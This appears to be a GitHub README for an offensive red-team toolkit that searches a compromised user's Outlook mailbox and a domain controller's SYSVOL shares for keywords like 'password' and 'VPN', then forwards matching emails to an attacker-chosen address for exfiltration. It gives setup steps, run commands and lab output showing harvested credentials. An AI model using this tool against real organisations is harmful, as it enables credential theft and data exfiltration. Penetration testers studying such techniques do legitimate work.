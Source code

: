 # ScrapingKit

Scraping Kit is made up of several tools for scraping services for keywords, useful for initial enumeration of Domain Controllers or if you have popped a user's desktop, their outlook client. Each component has a function currently supports scraping and emailing the contents to a designated email address for easy exfiltration.

The kit contains two tools currently with more to come in the coming months and more customisation options.

- SharpScrapeKit
- PSScrapeKit

## SharpScrapeKit

### What it is

It helps identify files that contain specific keywords in both emails via the Outlook desk app, and the local domain controller via the Policies and Scripts directories within the SYSVOL folder of an Active Directory domain. It then provides information about the matches and can be used to hunt for potential words such as username and password present in those files.

### How to setup/use

Read this blog post for more detailed information labs.

https://lares.com/introducing-the-scraping-kit/

#### Required NuGet Pakages

1. Right-click on project 'ScrapeKit' under Solution Explorer and select Manage NuGet Packages.
2. Click on Browse search for the below pakages and install.

```
Microsoft.Office.Interop.Outlook" Version="15.0.4797.1004"
MicrosoftOfficeCore" Version="15.0.0"
System.DirectoryServices" Version="7.0.1"
System.DirectoryServices.AccountManagement" Version="7.0.0"
```

`TargetFramework > net6.0`

Compile then execute with either PowerShell, CMD or if you have physical access simply double click it.
The following menu screen will load.

```
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
```

The Sharp implementation of the tool will pull the domain from environmental variables or if you want to specify it manually it will prompt you to do so.

### Example Option 1 using the default keywords

After selecting option 1 you will be requested to add a destination email address, all matches will be forwarded to the added address.
 
```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
Y
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```


### Example Option 1 using user defined keywords

You can select the default keywords or add your own keywords by selecting N at the prompt.

```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
n
Enter additional keywords (comma-separated):
happy1
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```

### Example Option 2 DC scrape with user defined keyword

```
C:\Users\user2>C:\Users\user2\Desktop\ScrapeKit.exe
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
2
Please provide at least one keyword as a command-line argument.
happy
Match found in file \\WIN-4Q0A4190APL.hacklab.local\SYSVOL\HACKLAB.LOCAL\Scripts\Test1\Herllo.txt!
Additional keywords found in the context:
user
username
name
username:
username:
Context:
sfsfisfjhsf sfjbsfj sf sf


username: happy1
password: test1
```

## PSScrapeKit

### What it is

PSScrapeKit is a powershell implementation of ScrapeKit, it consists of two files; DCScraper & OutlookScrape. Each has a specific function for scraping either a DC or Outlook. The outlook scraper will connect to the user's outlook client, search for keywords then queue up any interesting emails and send to an email of your choosing. Whereas the DC one will connect to sysvol and look for specific keywords or a default list.

- DCScrape.ps1
- OutlookScrape.ps1

### How to Use

#### DCScrape
Execute the script from a domain connected machine or in a runas session to crawl the DC;

```
.\DCScrape.ps1
```
#### OutlookScrape
Simply import the module then execute it:

```
ipmo .\OutlookScrape.ps1
Invoke-OutlookScrape
```

It will give you two options:
```
Select keyword option:
1. User-defined keywords
2. Default keywords (password, security, confidential, VPN, WIFI)
Enter the keyword option: 
```

Simply select an option then specify an email and the rest will queue up and do its thing.

### Example execution:

